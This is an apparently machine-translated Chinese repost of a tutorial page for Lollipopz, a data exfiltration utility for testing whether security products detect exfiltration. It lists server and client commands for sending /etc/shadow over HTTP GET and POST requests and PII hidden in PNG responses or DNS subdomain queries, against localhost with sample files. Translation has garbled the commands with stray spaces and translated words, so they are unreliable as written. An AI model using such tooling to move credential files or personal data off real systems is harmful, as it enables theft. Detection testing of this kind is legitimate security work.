

# Lollipopz:用于测试检测能力的数据过滤工具

> 原文：<https://kalilinuxtutorials.com/lollipopz/>

**Lollipopz** 是一个用于测试检测能力的数据过滤工具。用于测试安全产品检测能力的数据过滤实用程序。显然只是为了法律目的。

如何渗透？

**/etc/shadow - > HTTP GET 请求**

*   **服务器**

**#。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。GETServer -lp 80 -o output.log**

*   **客户端**

**$。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。GETClient-RH 127 . 0 . 0 . 1-RP 80-I ./samples/shadow . txt-r**

**/etc/shadow - > HTTP POST 请求**

*   **服务器**

**#。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。POSTServer -lp 80 -o output.log**

*   **客户端**

**$。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。post client-RH 127 . 0 . 0 . 1-RP 80-I ./samples/shadow . txt-r**

**也可阅读-[尾巴:保护你隐私的活系统&匿名](https://kalilinuxtutorials.com/tails-live-system-to-preserve-your-privacy-anonymity/)**

**PII - >嵌入在 HTTP 响应中的 PNG**

*   **服务器**

**$。/lollipopz-CLI . py-m lollipopz . methods . http . image _ response。Server -lp 37650 -o output.log**

*   **客户端**

**#。/lollipopz-CLI . py-m lollipopz . methods . http . image _ response。客户端-RH 127 . 0 . 0 . 1-RP 37650-LP 80-I ./samples/pii . txt-r**

**PII - > DNS 子域名查询**

*   **服务器**

**#。/lollipopz-CLI . py-m lollipopz . methods . DNS . subdomain _ cipher。Server -lp 53 -o output.log**

*   **客户端**

**$。/lollipopz-CLI . py-m lollipopz . methods . DNS . subdomain _ cipher。客户端-RH 127 . 0 . 0 . 1-RP 53-I ./samples/pii . txt-r**

[**Download**](https://github.com/tasooshi/lollipopz)